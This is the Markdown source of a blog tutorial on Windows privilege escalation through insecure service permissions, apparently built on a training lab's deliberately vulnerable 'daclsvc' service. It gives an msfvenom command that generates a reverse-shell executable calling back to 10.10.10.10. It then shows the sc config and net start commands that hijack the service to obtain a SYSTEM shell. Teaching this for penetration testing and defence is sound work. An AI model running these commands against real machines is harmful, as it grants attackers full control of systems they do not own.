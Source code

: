 ```yaml
---
title: Windows PrivEsc using Insecure Service Permissions
author: Udesh
date: 2020-11-04
categories: [Windows, Privilege Escalation]
tags: [Privilege Escalation]
---
```

## Windows PrivEsc using insecure service permissions.

This blog will cover the Windows Privilege Escalation technique using insecure service permission. This tutorial suitable when you try to exploit a machine using vulnerability by publicly available exploits and get the least privileged user and then try to escalate the admin rights.

In this scenario, the victim machine has an insecure running service **daclsvc**. You can use windows privilege escalation awesome script **WinPEAS .exe** to find out whether insecure services are running or not. I will generate a payload using msfvenom to get an active session of the least privileged user.

We need to create a payload using msfvenom. Make sure update the LHOST IP address accordingly.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```
Then, transfer the reverse.exe file to the windows machine. In my case i transfered the payload to the C:\PrivEsc directory on winodws. There are many ways you could do this. however the simplest is to start an SMB server on Kali in the same directory as the file, and then use the standard Windows copy command to transfer the file.
```bash
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```
![1.PNG]({{site.baseurl}}/assets/img/post/post6/1.PNG)

Now, system is ready to perform the privilege escalation attack.

First we need to check the **user** account permissions on the **daclsvc** service. I will use **SharpUp.exe** for this. 

SharpUp is the start of a C# port of** PowerUp**s privilege escalation checks. Currently, only the most common checks have been ported; no weaponization functions have yet been implemented. [https://github.com/GhostPack/SharpUp](https://github.com/GhostPack/SharpUp).

![2.PNG]({{site.baseurl}}/assets/img/post/post6/2.PNG)

You will notice that user has modifiable services **daclservice.exe**. 

Next, we need to query the service and note that it runs with SYSTEM privileges (SERVICE_START_NAME):
```bash
sc qc daclsvc
```
![3.PNG]({{site.baseurl}}/assets/img/post/post6/3.PNG)

Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable we created:

```bash
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```
![4.PNG]({{site.baseurl}}/assets/img/post/post6/4.PNG)

Start a **nc**  listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges

To start the service : 
```bash
net start daclsvc
```
![5.PNG]({{site.baseurl}}/assets/img/post/post6/5.PNG)

Check the netcat listener, user is now an admin. 😎
